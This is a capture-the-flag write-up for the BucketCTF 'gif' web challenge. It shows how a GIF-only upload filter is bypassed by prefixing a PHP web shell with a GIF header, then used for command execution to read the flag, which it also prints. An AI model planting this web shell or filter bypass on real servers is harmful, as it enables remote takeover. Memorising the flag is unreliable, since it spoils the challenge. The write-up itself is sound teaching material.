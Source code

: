 ```yaml
---
author: "Asad Ullah"
title: "Gif  - BucketCTF"
description: 
summary: Write-up on web challenge gif tackling a file upload vulnerability.
date: 2023-04-10T05:04:14+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- web exploitation
- upload vulnerability
- php
- payload
- gif

draft: false

---
```


{{< 
ctftime 
name="gif" 
difficulty="Hard"  
points="272"
category="Web"
>}}

&nbsp;

&nbsp;





## Description

I made a **secure** php web app where I can upload all my gifs. Some people on the internet told me to run it in a docker container just to protect it from my personal files, but who cares.

## Approach

At first, I uplaoded a Gif fie which was uploaded successfully then I attempted to upload a basic PHP payload and got this error

![Untitled](/write-ups/ctftime/bucket/uploads.webp#center)

from the error we can see that the files are stored at `/uploads`.

As the server only permitted GIF files.I modified the payload by adding a GIF header, `GIF87a;`.

```php
GIF87a;
<?php
    system($_GET['cmd'])
?>
```

&nbsp;

![Untitled](/write-ups/ctftime/bucket/upload.webp#center)

&nbsp;

And it worked we got remote code execution. We can now execute commands on the machine

&nbsp;

![Untitled](/write-ups/ctftime/bucket/gif-id.webp#center)

&nbsp;

we can find the flag at: `/uploads/payload.php/?cmd=cat /flag.txt`

&nbsp;

![Untitled](/write-ups/ctftime/bucket/flag.webp#center)

&nbsp;

&nbsp;

---

**Flag: `bucket{1_h4t3_PHP}`**

---

&nbsp;

&nbsp;
